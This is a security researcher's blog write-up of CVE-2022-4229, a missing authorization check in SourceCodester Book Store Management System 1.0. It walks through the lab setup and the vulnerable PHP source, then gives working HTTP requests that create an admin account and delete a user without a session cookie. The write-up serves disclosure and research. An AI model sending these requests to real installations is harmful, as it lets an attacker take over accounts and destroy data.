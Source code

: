 ```yaml
---
template: overrides/blog.html
title: CVE-2022-4229
description: >
  A vulnerability classified as critical was found in SourceCodester Book Store Management System 1.0. This vulnerability affects an unknown part of the file /bsms_ci/index.php. The manipulation with an unknown input leads to a access control vulnerability. The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. As an impact it is known to affect confidentiality, integrity, and availability.
hide:
  - feedback
---
```


# SourceCodester Book Store Management System 1.0 /bsms_ci/index.php Access Control - CVE-2022-4229

<aside class="mdx-author" markdown>
![@squidfunk][@squidfunk avatar]

<span>**My Le** · @msplmee</span>
<span>
:octicons-calendar-24: November 30, 2022 ·
:octicons-clock-24: 5 min read ·
</span>

</aside>

[built-in search plugin]: ../../setup/setting-up-site-search.md#built-in-search-plugin
[@squidfunk avatar]: ../../assets/author/casicon.png
[insiders-4.14.0]: ../../insiders/changelog.md#4.14.0

---

## Introduction

In the realm of cybersecurity, discovering a vulnerability and obtaining a CVE (Common Vulnerabilities and Exposures) entry is a significant achievement. It marks a milestone in an individual's journey as a security researcher, demonstrating their expertise and contribution to the field. In this blog post, I am excited to share my personal journey of uncovering one of the initial CVEs identified by our team. We will delve into the details of CVE-2022-4229, a specific vulnerability impacting the SourceCodester Book Store Management System 1.0, and discuss the implications of its access control issue.

## Understanding CVE-2022-4229

[CVE-2022-4229](https://www.cve.org/CVERecord?id=CVE-2022-4229) is a vulnerability classified as critical was found in SourceCodester Book Store Management System 1.0. This vulnerability affects an unknown part of the file /bsms_ci/index.php. The manipulation with an unknown input leads to a access control vulnerability. The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. As an impact it is known to affect confidentiality, integrity, and availability.

**Affected product(s)/code base**: [Book Store Management System Source Code](https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip)

**Affected component(s):**

- /bsms_ci/index.php/category/\*
- /bsms_ci/index.php/book/\*
- /bsms_ci/index.php/transaction/\*
- /bsms_ci/index.php/history/\*
- /bsms_ci/index.php/user/\*

## Technical Details

### System Installation/Setup

1. Open your XAMPP Control Panel and start Apache and MySQL.
2. Extract the [downloaded source code](https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip) zip file.
3. Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
4. Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
5. Create a new database named ci_bsms_db.
6. Import the provided SQL file. The file is known as ci_bsms_db.sql located inside the database folder.
7. Browse the Book Store Management System in a browser. i.e. http://localhost/bsms_ci/

### Source Code Analyst

A PHP function called `add()` responsible for adding a user in the context of a Book Store Management System. Here's a breakdown of the code:

```php
/* Location: ./application/controllers/User.php */
public function add()
{
    if ($this->input->post('save')) {
		if ($this->user->save_user()) {
            $this->session->set_flashdata('message', 'Used Added Successfully');
            redirect('user','refresh');
        } else {
            $this->session->set_flashdata('message', 'Failed to Add');
            redirect('user','refresh');
        }
    }
}

```

When this function is called, it first checks if the 'save' parameter is present in the `POST` request. If it exists, it calls the `save_user()` function of the `$this->user` object.

If the `save_user()` function returns true, indicating that the user was successfully saved in the system, the code sets a flash message using `set_flashdata()` with the message "User Added Successfully". It then redirects the user to the 'user' page using the `redirect()` function.

On the other hand, if the `save_user()` function returns false, indicating a failure in saving the user, the code sets a flash message with the message "Failed to Add" and redirects the user to the 'user' page.

The `save_user()` function is called to save the user's information into the database. Here is the code for the function:

```php
/* Location: ./application/models/M_user.php */
public function save_user()
{
		$object=array(
				'user_code'=>$this->input->post('user_code'),
				'fullname'=>$this->input->post('fullname'),
				'username'=>$this->input->post('username'),
				'password'=>md5($this->input->post('password')),
				'level'=>$this->input->post('level')
			);
		return $this->db->insert('user', $object);
}
```

In this code, the function creates an array called `$object` that contains the user's information. It retrieves the data from the `POST` request parameters such as `user_code`, `fullname`, `username`, `password`, and `level`. The `md5()` function is used to hash the password before storing it in the database.

The function then calls the `insert()` method of the database object (`$this->db`) to insert the `$object` array into the user table.

The function returns the result of the `insert()` method, which indicates whether the user was successfully saved in the database or not.

&#10233; After analyzing the code, it appears that there is a missing check for user authorization or privileges in the `add()` function. This omission can potentially lead to a security vulnerability where unauthorized users can access and add users to the system.

### Exploitation Execution

#### Add new account without cookie

Request:

```http
POST /bsms_ci/index.php/user/add HTTP/1.1
Host: localhost
Content-Length: 64
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

fullname=john&username=john&password=12345&level=admin&save=Save
```

![Add new account without cookie](CVE-2022-4229/add_user.png)

#### Delete account without cookie

```http
GET /bsms_ci/index.php/user/hapus/2 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

![Delete account without cookie](CVE-2022-4229/delete_user.png)
